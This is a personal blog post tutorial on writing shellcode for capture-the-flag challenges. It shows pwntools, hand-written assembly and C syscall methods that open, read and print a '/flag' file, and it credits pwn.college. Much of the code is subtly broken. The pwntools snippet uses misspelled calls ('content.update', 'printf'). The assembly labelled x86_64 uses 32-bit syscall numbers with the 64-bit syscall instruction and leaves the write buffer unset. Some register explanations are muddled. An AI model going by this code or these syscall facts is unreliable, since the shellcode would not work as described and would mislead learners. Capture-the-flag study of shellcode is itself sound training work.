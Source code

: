 ```yaml
---
layout: post
title: How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development
subtitle: Learn through First principles c
gh-repo: muchiking.github.io/
# gh-badge: [star, fork, follow]
tags: [cybersecurity.binary,pwn]
comments: true
---
```


# How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development

Shellcode injection is a powerful technique that allows the injection and execution of custom code within a target process. In this blog post, we'll explore different approaches to writing shellcode and discuss methods to streamline the development of assembly code.


# way one

## The Power of Pwntools: Crafting Shellcode with Python

One of the easiest ways to write shellcode is by using the Python library called pwntools. Pwntools provides a rich set of features to simplify exploit development, including a module called shellcraft, which helps in crafting shellcode for various operations.

Here's an example of using pwntools and shellcraft to generate shellcode that reads and prints the contents of the "/flag" file:

```
from pwn import *
content.update(arch="amd64")
pay=(asm(shellcraft.cat('/flag')))
printf(pay=(asm(shellcraft.cat('/flag'))))
```




By leveraging pwntools and shellcraft, you can easily generate shellcode for different operations, such as file manipulation, network communication, or privilege escalation.


hoold up that's not the end some of us do not want peace.
all in all  its best to have multiple ways to do things since you may want a functionality that is not implemented by pwn tools 

# way two 

## Hardcoding Assembly: Fine-grained Control and Understanding

### directly hard code it using assembly like the chad you are 

For those seeking more control and a deeper understanding of the inner workings of shellcode, hardcoding assembly instructions can be a viable approach. Let's take a closer look at the assembly code for opening, reading, and writing a file using the x86_64 architecture:

```
global _start
section .text

_start:
    ; Open the file
    mov eax, 0x5   ; sys_open system call number
    mov edi, filename
    mov esi, 0     ; flags (O_RDONLY)
    xor edx, edx   ; mode (permissions)
    syscall

    ; Read from the file
    mov ebx, eax   ; file descriptor
    mov eax, 0x3   ; sys_read system call number
    mov edi, ebx   ; file descriptor
    lea esi, [rsp] ; buffer address
    mov edx, 0x100 ; buffer size
    syscall

    ; Write to STDOUT
    mov eax, 0x4   ; sys_write system call number
    mov edi, 1     ; STDOUT file descriptor
    mov edx, eax   ; bytes to write
    syscall

    ; Exit the program
    mov eax, 0x1   ; sys_exit system call number
    xor ebx, ebx   ; exit status
    syscall

section .data
    filename db "/flag",0

```

By directly working with assembly code, you have fine-grained control over the instructions and can better understand the interactions between the operating system and your code.

save it as a dot .s file eg thanksforreadintheblog.s
then compile it with the -nostdlib flag
```
gcc -nostdlib -o thanksforreadintheblog thanksforreadintheblog.s
```

though assembly is for chads it lacks documentation

the best documentation out there are x86_64 syscals tables
![Pasted image 20230713211214.png](/assets/img/20230713211214.png)

as you can see they are not that clear like the flags to open the files i found it from linux kernel files written by the world wide wwe heavy weight champion  Linus Torvald  

and that is why we have to be smart
the smartest way to move is by the use of c and yes you do not need to learn programming to be a hacker.

#  part way 3 and way 4 

## Using C to Implement binary: Streamlining the Process

While writing shellcode in assembly can be powerful, it can also be time-consuming. A more efficient approach is to leverage the capabilities of C programming to implement shellcode using system calls. The POSIX standard provides a common interface for system calls across different Unix-like operating systems.

we will be using the posix standard since it is a standard that is followed by all who want to interact with the kernel

the defination by onchan chat gpt is that posix is 
```
POSIX stands for "Portable Operating System Interface." It is a set of standards that define the application programming interface (API), shell interface, and utility interfaces for software compatibility between different Unix-like operating systems. POSIX-compliant systems provide a common framework for developing and executing software, allowing programs written for one POSIX-compliant operating system to run on another without significant modifications.

```

this is how you implement it

![Pasted image 20230713213655.png](/assets/img/20230713213655.png)

after compiling you can get the assembly code by running objdump on the compiled binary 

![Pasted image 20230713214331.png](/assets/img/20230713214331.png)





![Pasted image 20230713221523.png](/assets/img/20230713221523.png)

as you can see this registers match appart from rax 

from the compiled binary you just replace call with syscall and eax with the call number  by doing this you save yourself a lot of time reading man pages 

The fourth

the easiest way to do this is by using a direct syscall in c eg

```
#include <sys/fcntl.h>
#include <sys/unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
// #include <sys/syscall.h>

#define BUFSIZE 4096


void main(){
char buffer[BUFSIZE];
ssize_t bytesRead;
ssize_t bytesWritten;
int fd;
fd=syscall(SYS_open,"/flag",O_RDONLY);
bytesRead = syscall(SYS_read, fd, buffer, BUFSIZE);
bytesWritten = syscall(SYS_write, STDOUT_FILENO, buffer, bytesRead);
syscall(SYS_close, fd);
}
```

the assembly code generated looks like this
![[Pasted image 20230713220301.png](/assets/img/20230713220301.png)]


this is syntax used in to pass values that are soon to be executed by a function in assembly.

```
rax: caries return values also carries syscal values usaly the 0 argument
rdi:    First Argument
rsi:    Second Argument
rdx:    Third Argument
rcx:    Fourth Argument
r8:     Fifth Argument
r9:     Sixth Argument
```


since in the c files the syscall function takes more operators one extra argument is added that pushes things to the next rargument register so to reverse this you just mov arguments one regsiter back eg 

what is in rdi goes to rax, what is in rsi to rdi  then on and on.
the good thing about this method is that you do not need to check the syscall table thus saves you more time. 


Thank you for taking the time to read through this blog post. I would like to express my gratitude to the pwn.collage for their valuable training and challenging experiences, which have contributed to my understanding of shellcode injection.

I hope you found this blog post informative and helpful. If you have any further questions or need assistance, please feel free to reach out. Have a great day ahead!
